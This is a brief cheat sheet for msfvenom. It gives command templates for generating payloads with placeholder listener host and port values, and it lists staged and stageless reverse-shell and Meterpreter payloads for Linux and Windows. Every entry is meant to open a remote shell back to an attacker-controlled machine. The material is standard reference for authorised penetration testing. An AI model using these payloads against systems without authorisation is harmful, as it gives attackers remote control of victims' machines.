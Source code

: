 # MSFVenom

```
msfvenom -p [PAYLOAD] lhost=[LHOST] lport=[LPORT] R
msfvenom -p [PAYLOAD] LHOST=[LHOST] LPORT=[LPORT] -f [EXTENSION] -o [OUTPUT FILE]
```

- -p : payload
- lhost : our local host IP address (this is your machine's IP address)
- lport : the port to listen on (this is the port on your machine)
- R : export the payload in raw format


## Common Payload

### Normal Shell
#### Linux

Staged
```
linux/x64/shell/reverse_tcp
linux/x86/shell/reverse_tcp
```

Stageless
```
linux/x64/shell_reverse_tcp
linux/x86/shell_reverse_tcp
```

#### Windows

Staged
```
windows/x64/shell/reverse_tcp
windows/shell/reverse_tcp
```

Stageless
```
windows/x64/shell_reverse_tcp
windows/shell_reverse_tcp
```

### Meterpreter Shell
#### Linux

Staged
```
linux/x64/meterpreter/reverse_tcp
linux/x86/meterpreter/reverse_tcp
```

Stageless
```
linux/x64/meterpreter_reverse_tcp
linux/x86/meterpreter_reverse_tcp
```

#### Windows

Staged
```
windows/x64/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
```

Stageless
```
windows/x64/meterpreter_reverse_tcp
windows/meterpreter_reverse_tcp
```

